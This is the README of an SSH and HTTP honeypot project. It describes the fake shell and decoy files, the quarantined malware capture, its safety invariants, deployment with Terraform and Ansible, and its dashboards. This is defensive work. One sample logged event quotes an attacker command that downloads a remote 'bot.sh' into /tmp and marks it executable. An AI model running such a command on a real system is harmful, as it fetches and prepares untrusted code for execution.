

# Arapuca

A medium interaction SSH and HTTP honeypot in C++20. It runs on a public
address, lets attackers in with weak credentials, records everything they do,
captures what they try to download, and ships the lot to New Relic where the
dashboards and alerts are provisioned as code.

The name is Brazilian Portuguese for a simple trap made of sticks.

**It never executes anything an attacker sends.** Every shell response is
fabricated or read out of an in memory filesystem, and CI fails the build if a
process spawning primitive appears anywhere in the sources.

[](https://github.com/CarlosZambonii/arapuca/actions/workflows/ci.yml)
[](https://github.com/CarlosZambonii/arapuca/actions/workflows/docker.yml)
[](https://github.com/CarlosZambonii/arapuca/actions/workflows/codeql.yml)

[Leia em português](README.pt-BR.md)

---

## What it does

**A fake SSH server** that accepts only credentials from a list of the weak
ones real brute forcers try, and records every attempt whether it worked or
not. A session that gets in lands in a fake shell with more than forty
commands over a fabricated filesystem: a slightly neglected Ubuntu server with
plausible users, a deployed application and credentials worth stealing.

**A fake HTTP server** with a generic admin panel at the fifteen paths
scanners actually request, and decoy files at `/.env`, `/.git/config`,
`/backup.sql`, `/wp-config.php` and others. Whatever an attacker takes from
those files is fabricated and opens nothing.

**Malware capture.** When an attacker types `wget` or `curl` in the fake
shell, the URL is fetched on a worker thread with hard timeouts, a size cap,
and an address policy that refuses private ranges and the cloud metadata
service. The sample is quarantined as `<sha256>.zip`, encrypted, read only,
never executed, and only its hash is looked up on VirusTotal.

**Enrichment.** GeoIP, MITRE ATT&CK mapping from rules in YAML, and a session
classifier that calls a session bot or likely human from its typing rhythm.

## Architecture



## Safety invariants

These are the properties the design holds, not aspirations. Each one has
tests, and several are enforced structurally rather than by review.

| | Invariant | How it holds |
|---|---|---|
| S1 | Attacker input is never executed | No `system`, `exec*`, `popen`, `fork` or `wordexp` anywhere in `src/` or `include/`. A CI check fails the build if one appears |
| S2 | Every attacker controlled buffer is bounded | All limits in one header, applied before allocation. Fuzzed |
| S3 | Samples are never executable | Written mode `0400`, and the quarantine mount is `noexec` |
| S4 | Samples are never uploaded | The VirusTotal client has no upload function, and none can be added without changing its interface |
| S5 | The process is unprivileged | uid 10001, high ports, the host maps 22 and 80 onto them |
| S6 | The real sshd leaves port 22 before 22 is exposed | cloud-init moves it at first boot; Ansible refuses to run if it is still there; Terraform keeps 22 closed until the container is up |
| S7 | Secrets never reach the repository | Environment variables only, with `.env.example` and a CI check for committed public addresses |
| S8 | An attacker cannot fill the disk | Quarantine byte and file caps with oldest first eviction, plus logrotate |
| S9 | The honeypot cannot be aimed at internal or metadata addresses | The resolved address is checked immediately before every connect and on every redirect |
| S10 | No channel reaches anything real | Port forwarding, X11, agent forwarding and every subsystem including SFTP are refused and recorded |

## Running it locally

Ubuntu 24.04, or anything with the same libraries. That is the only supported
base, in CI, in the container and on the VPS.

```bash
sudo apt-get install -y --no-install-recommends \
    build-essential cmake ninja-build pkg-config \
    libssl-dev libcurl4-openssl-dev \
    libssh-dev libyaml-cpp-dev libmaxminddb-dev libminizip-dev

cmake --preset dev
cmake --build --preset dev
ctest --preset dev

./build/dev/src/arapucad --config config/arapuca.dev.yaml
```

The development configuration keeps everything writable under `./var` and
listens on unprivileged ports, so no setup and no cleanup beyond deleting that
folder.

There is also a container, built for amd64 and arm64 and signed with cosign
on publication. Verify before you run it, because the whole point of the
thing is that it sits where attackers can reach it:

```bash
cosign verify ghcr.io/carloszambonii/arapuca:latest \
  --certificate-identity-regexp '^https://github.com/CarlosZambonii/arapuca/' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com
```

Then, from another terminal:

```bash
ssh -p 2222 root@127.0.0.1            # password 123456
curl http://127.0.0.1:8080/.env
tail -f var/events.jsonl | jq .
```

## Deploying it

```bash
# 1. Network and instance. Ports 22 and 80 stay closed.
cd deploy/terraform/oci
cp terraform.tfvars.example terraform.tfvars   # fill it in
terraform init && terraform apply

# 2. Harden the host and start the honeypot.
terraform output -raw ansible_inventory > ../../ansible/inventory/hosts.yml
cd ../../ansible
ansible-galaxy collection install -r requirements.yml
ansible-playbook -i inventory/hosts.yml site.yml \
  -e newrelic_license_key="$NEW_RELIC_LICENSE_KEY" \
  -e virustotal_api_key="$VT_API_KEY"

# 3. Only now open the honeypot ports. This opens 22, 80 and 8080: the HTTP
#    honeypot answers on 80 and on 8080, the alt-HTTP port many scanners probe
#    instead of 80.
cd ../terraform/oci
terraform apply -var expose_honeypot_ports=true

# 4. Dashboards and alerts.
cd ../newrelic
terraform init && terraform apply -var "api_key=$NEW_RELIC_API_KEY"
```

Step 3 is separate on purpose. Opening port 22 before the honeypot is
listening would expose the real sshd, and the Ansible play refuses to run at
all if it detects it is still there.

`docs/DEPLOYMENT.md` has the failure modes, including how to diagnose an
instance you cannot reach.

## Output

One JSON object per line, documented field by field in
[`docs/EVENT_SCHEMA.md`](docs/EVENT_SCHEMA.md):

```json
{"schema_version":1,"event_type":"ssh.command","timestamp":"2026-11-02T14:31:07.482Z",
 "service":"ssh","sensor":"arapuca-sa","src_ip":"203.0.113.45","session_id":"01JBQ3...",
 "geo":{"country_iso":"CN","country":"China","asn":37963,"as_org":"Alibaba"},
 "mitre":{"technique_id":"T1105","technique":"Ingress Tool Transfer",
          "tactic":"Command and Control"},
 "command":"cd /tmp; wget http://198.51.100.9/bot.sh; chmod +x bot.sh",
 "seq":4,"since_prev_ms":11,"unknown":false}
```

### Dashboards

Two dashboards and an alert policy with eight conditions, defined in
[`deploy/terraform/newrelic/`](deploy/terraform/newrelic/) and created by
`terraform apply`, never by hand in the console.

**Arapuca, overview**: events and unique attackers over 24 hours, successful
logins, samples captured, attacks per hour by service, sessions split into bot
and human, top source countries and networks, the passwords and usernames
being tried and the pairs that worked, commands typed, ATT&CK techniques and
tactics, HTTP paths requested, decoy files taken, captured samples with their
VirusTotal verdicts, downloads refused by the address policy, and channel
requests refused.

**Arapuca, sessions**: the longest sessions, the ones the classifier reads as
human, the command transcript newest first, the typing rhythm as a median gap
between commands, commands never seen before, and the honeypot's own health.

Screenshots are deliberately absent rather than invented: a dashboard of
fabricated numbers would misrepresent what this produces, which is the one
thing a portfolio piece must not do. They go in
[`docs/images/`](docs/images/README.md) once the sensor has collected a
representative week.

### Live map

The page is in English and Portuguese, switched by a control in the header.
It follows the browser on a first visit and remembers the choice. Country
names come from the browser's own `Intl.DisplayNames`, so they read
idiomatically in both languages without shipping a table.

The map zooms: a wheel, a pinch or the control in its corner magnifies the
map rather than the page, a drag moves it, and the keyboard works when it has
focus. Under it, when a captured session has enough to show, a terminal
replays one attacker's commands at the gaps they actually left between them,
which is the `since_prev_ms` the classifier reads to tell a bot from a hand.
The page's link preview is `web/og.png`, rendered from
[`web/card.html`](web/card.html) by `scripts/render_social_card.sh`.

[`web/`](web/) is a public page showing where the attacks come from, deployed
on Netlify. It exists so the honeypot can be shared with people who do not
have a New Relic account, and so anyone reading about it can try to get in and
watch their own country appear.

The New Relic key never reaches a browser. A scheduled job runs
`tools/live_export.py`, commits `web/data/live.json`, and Netlify deploys on
that push, so the key lives only in GitHub secrets.

What the page publishes is deliberately coarser than the IoC feed: source
addresses are shown with the host part masked, because an attacker should
recognise their own attempt while a bystander on a shared address is not
named.

### IoC feed

[`iocs/`](iocs/) is regenerated daily and [`reports/`](reports/) weekly, both
from the sensor's own telemetry. Read the caveats in
[`iocs/README.md`](iocs/README.md) before using the addresses for anything:
they are observations with timestamps, not a blocklist.

## Project layout

```
include/arapuca/  src/        public headers and implementation
  core/                       config, events, bus, JSONL sink, limits
  enrich/                     GeoIP, ATT&CK mapping, session classifier
  ssh/                        libssh server, fake shell, virtual filesystem
  http/                       admin panel, decoys, request recording
  capture/                    address policy, downloader, quarantine, VirusTotal
config/                       credentials, filesystem, ATT&CK rules, decoys
deploy/                       Dockerfile, compose, cloud-init, Terraform, Ansible
tools/                        NerdGraph export and report generation
tests/                        unit, integration and fuzz targets
docs/                         event schema, deployment, dependencies
```

## Quality gates

Run everything CI runs, locally:

```bash
./scripts/verify.sh          # formatting, both build types, sanitizers, clang-tidy
./scripts/verify.sh quick    # formatting, debug build and tests
./scripts/coverage.sh        # line and branch coverage, with an HTML report
```

The release build is not optional. GCC enables analyses under optimization
that it cannot perform at `-O0`, and a warning that only appears in a release
build once reached CI because the local gate only built the debug preset.

Every change runs through: GCC and Clang on x86_64 and arm64,
AddressSanitizer and UndefinedBehaviorSanitizer with leak detection,
ThreadSanitizer, clang-tidy at zero findings with a security oriented
profile, clang-format, CodeQL with the security extended queries, eight
libFuzzer targets for sixty seconds each, coverage against a floor, `ruff`
and `mypy --strict` over the Python in `tools/`, a Trivy scan of the
container image, a check that no process spawning primitive exists, and a
check that no public address was committed.

ThreadSanitizer is there because the daemon is threaded throughout: an accept
loop per service, a capture worker, a bounded bus and one sink shared between
them. AddressSanitizer cannot see a data race between any two of those.

Overnight, each fuzz target runs for ten minutes against a corpus that
accumulates between runs, which is a different exercise from the sixty second
smoke test on a pull request: one catches a regression, the other finds
something new.

Integration tests drive a real SSH client and a real HTTP client against real
servers, because a channel policy can be correct in a unit test and wrong on
the wire.

## Contributing and reporting

[`CONTRIBUTING.md`](CONTRIBUTING.md) has the gates and the conventions.
[`SECURITY.md`](SECURITY.md) says what counts as a vulnerability here, which
is narrower than it looks: getting in with a weak password is the invitation,
not a finding. [`CHANGELOG.md`](CHANGELOG.md) records what changed between
releases.

## Legal and ethical notice

Arapuca records only what is voluntarily sent to it by whoever connects. It
attacks nothing, scans nothing, and retaliates against nothing.

Before running one:

* **Run it on infrastructure you own.** A honeypot on somebody else's network
  is somebody else's problem.
* **Understand your local law** on recording connections and on publishing
  what you record. Address data may be personal data where you live.
* **The quarantine holds real malware.** Treat that directory accordingly, and
  do not copy samples onto a machine you care about.
* **The published indicators name real addresses.** Addresses get reused, and
  carrier grade NAT means one address can represent thousands of people. They
  are evidence to correlate, not a drop list.

## Attribution

IP geolocation uses the [DB-IP](https://db-ip.com) Lite databases (City and
ASN), licensed [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/). The
databases are downloaded at deploy time and refreshed monthly; they are not
redistributed in this repository or in the container image. MaxMind GeoLite2
is still supported as an alternative when a licence key is configured.

## License

MIT, see [LICENSE](LICENSE). The licence covers this project's own code, not
the geolocation databases above, which keep their own terms.
